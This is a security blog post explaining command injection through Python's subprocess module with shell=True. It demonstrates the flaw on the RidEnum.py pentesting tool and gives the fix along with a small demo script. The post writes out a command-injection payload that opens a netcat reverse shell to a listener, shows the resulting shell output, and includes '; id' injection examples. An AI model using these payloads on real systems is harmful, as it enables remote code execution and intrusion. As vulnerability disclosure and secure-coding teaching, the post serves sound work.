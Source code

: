 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Pwning A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me get all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals or groups can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the drug or alcohol choice of the individual/group was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html
 2. https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html
 3. https://security.openstack.org/guidelines/dg_use-subprocess-securely.html
 4. https://security.openstack.org/guidelines/dg_avoid-shell-true.html
 5. https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd
 6. https://docs.python.org/3.7/library/subprocess.html#popen-objects
 
The links above focus more on which a user is prompted to provide input via the `input` function in Python. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as a vast majority of Linux machines will probably not have this tool installed. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the Domain SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool was using a Subprocess.Popen object or two to execute a shell command. This appears on lines 62 and 78. 

There is at least one argument that helped me obtain code execution, which was the argument for the rhost's IP address. It also looks like the `auth` argument is a possibility, but I've had no luck with using it. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (or optional username argument) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little tricker. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of crap after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject the bash command `id`.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
ls
CHANGELOG.txt
LICENSE.txt
README.md
ridenum.py
```

Note how I placed the `nc` command with the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, it looks like `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after the `nc` command will keep the reverse shell alive until you exit it.

## The Fix
Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. In addition, breaking down the string in referenced by the`command` variable into a list of strings would fix the issue also as this wouldn't treat each subsquent string as an argument to the string in the first indice. 

Change `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "\"{}\"".format(auth), "{}".format(ip), "-c", "\"lsaquery\""], stdout=subprocess.PIPE)`


## You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```
